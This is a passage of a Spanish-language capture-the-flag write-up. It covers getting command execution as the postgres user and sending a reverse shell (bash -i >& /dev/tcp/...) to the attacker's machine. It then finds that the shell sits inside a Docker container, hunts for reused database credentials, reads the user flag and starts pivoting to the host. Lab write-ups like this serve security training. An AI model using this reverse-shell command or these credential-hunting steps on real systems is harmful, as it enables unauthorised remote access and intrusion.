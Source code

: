 Y vemos que conseguimos ejecución de comandos

Nos mandamos una revshell para trabajar mas cómodamente
```shell
os-shell> bash -c "bash -i >& /dev/tcp/10.10.14.76/443 0>&1"
```

![Write-up Image](images/Screenshot_9.png)

Detectamos que estamos en un contenedor.
```shell
(remote) postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ip a
bash: ip: command not found
(remote) postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ hostname -I
172.17.0.2
```

Como es una máquina fácil, fui a lo obvio e intente recuperar las credenciales de acceso a la base de datos por si se reutilizan estas credenciales.

```php
$conn = pg_connect("host=localhost port=5432 dbname=test user=postgres password=password");
```
Pero no tiene pinta...

Por la cara me encontré la flag de usuario
```shell
(remote) postgres@bc56e3cc55e9:/var/lib/postgresql$ cat user.txt 
f0183e44378ea... flag.txt
```

## Container Pivoting
Este contenedor no tenía `ping` instalado
Así que probando si conseguía detectar si algún estaba abierto en la dirección `172.17.0.1` que suele ser la máquina anfitriona..

```shell
(remote) postgres@bc56e3cc55e9:/var/lib/postgresql$ ping 172.17.0.1
bash: ping: command not found
```
